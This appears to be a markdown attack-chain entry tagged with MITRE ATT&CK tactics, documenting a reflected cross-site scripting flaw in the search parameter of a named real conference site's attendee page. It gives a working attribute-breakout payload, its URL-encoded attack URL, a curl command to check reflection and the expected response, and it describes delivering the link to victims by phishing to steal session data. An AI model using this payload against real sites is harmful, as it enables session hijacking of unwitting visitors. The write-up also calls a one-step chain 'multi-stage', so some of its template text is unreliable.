

---
tags:
  - xss
  - reflected-xss
  - javascript
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-Reflected-XSS-Payload-into-Search-Parameter]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:15:41.382Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the search
  parameter on the WebSummit featured attendees page to execute arbitrary
  JavaScript in the victim's browser.
skill_level: beginner
impact_level: medium
id: 9182189c-d3c3-4321-8a9a-4c2fddb160d1
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
---
# Reflected XSS via Search Parameter on WebSummit Attendee Page

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- Optional: Proxy tool like Burp Suite for crafting requests

### Target Environment

- Web platform
- Accessible public-facing website (https://websummit.net)
- No authentication required

### Initial Access Requirements

- Ability to send a malicious link to the victim (e.g., via phishing)
- Victim must visit the crafted URL in their browser
- No prior access needed

## Detailed Attack Procedures

### Step 1: Inject and Execute XSS Payload
procedure: [[procedures/Inject-Reflected-XSS-Payload-into-Search-Parameter]]

**Objective**: Deliver a malicious search query that reflects unsanitized into a script tag's data-url attribute, breaking out to execute JavaScript and potentially steal session data.

**Instructions**: Craft a URL with the 'q' parameter containing a payload that escapes the attribute and injects an iframe or script tag. For example, use the payload 'rubyoob'><iframe/onload=alert(document.domain)></iframe>' URL-encoded as 'rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E'. Access the URL https://websummit.net/attendees/featured-attendees?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E in a browser. The payload reflects into the Handlebars template script tag, executing the onload alert.

To simulate via command line, use [[commands/curl-xss-test]] to fetch the page and inspect the response for reflection:

```bash
curl -s "https://websummit.net/attendees/featured-attendees?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E" | grep -i "data-url"
```

**Expected Output**: The response contains the reflected payload in the data-url attribute, such as '<script id="fa-list" class="api-json" data-target="#attendees" data-url="https://api.cilabs.net/v1/conferences/ws16/info/attendees?limit=25&q=rubyoob'><iframe/onload=alert(document.domain)></iframe>,' breaking out and allowing execution when rendered in a browser.

**Success Indicators**:
- Alert box pops up with the domain name (e.g., websummit.net)
- JavaScript console shows execution errors or successful onload
- In a real attack, cookies or session data could be exfiltrated to an attacker-controlled server

## Attack Chain Summary

### Key Achievements

1. Successful breakout from the data-url attribute using quote and angle bracket injection
2. Execution of arbitrary JavaScript, demonstrating potential for session hijacking
3. Identification of the vulnerability in the Handlebars template rendering

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
